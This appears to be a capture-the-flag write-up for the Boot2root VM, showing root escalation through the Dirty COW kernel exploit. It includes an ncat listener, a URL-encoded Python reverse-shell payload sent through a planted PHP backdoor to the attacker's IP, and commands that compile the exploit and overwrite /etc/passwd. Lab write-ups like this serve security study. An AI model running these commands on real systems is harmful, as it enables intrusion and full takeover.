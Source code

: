 # Dirty Cow Exploit
After setting up the Reverse Shell on user www-data, we can see that the Kernel version of Linux is 3.2.0 which has a massive exploit known as Dirty COW. The exploit consists of taking advantage of a race condition that happens when you try to write on a cache of a file that's just has been deleted and can permit you to write on any files and in our case /etc/passwd. 

When logged in as user www-data we can go to /tmp to write our exploit and compile it, I chose the firefart version on [Dirty Cow Ninja](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs) which takes as the argument the new password of root, we modified the code as to have the user named root:

 1. First we launch ncat with the following flags to listen on any host on port 1234

    └─# ncat -nvklp 1234
	Ncat: Version 7.93 ( https://nmap.org/ncat )
	Ncat: Listening on :::1234
	Ncat: Listening on 0.0.0.0:1234

 2. Secondly, we send our reverse shell through our backdoor:
 
 `curl --insecure https://<BOOT2ROOT IP>/forum/templates_c/backdoor.php\?cmd\=python%20-c%20%27import%20socket%2Csubprocess%2Cos%2Cpty%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22<OUR IP>%22%2C1234%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dpty.spawn%28%22%2Fbin%2Fbash%22%29%3B%27
`

 3. Now we are connected to the VM of Boot2root on www-data and we can write on ou current directory /var/www/forum/templates_c so let's copy our dirty.c, compile it and then execute it
 
    Ncat: Connection from 192.168.56.102.
	Ncat: Connection from 192.168.56.102:51482.	
	www-data@BornToSecHackMe:/var/www/forum/templates_c$ cat > dirty.c << lol
	><DIRTY.C code>
	>lol
	www-data@BornToSecHackMe:/var/www/forum/templates_c$ gcc -pthread dirty.c -o dirty -lcrypt
	www-data@BornToSecHackMe:/var/www/forum/templates_c$ ./dirty q
	./dirty q
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: q
Complete line:
root:roI77uTJXVKgg:0:0:pwned:/root:/bin/bash
mmap: b7fda000

We can relaunch our reverse shell, and just

    www-data@BornToSecHackMe:/var/www/forum/templates_c$ su root
    Password:q
    root@BornToSecHackMe:/var/www/forum/templates_c$ id
    uid=0(root) gid=0(root) groups=0(root)
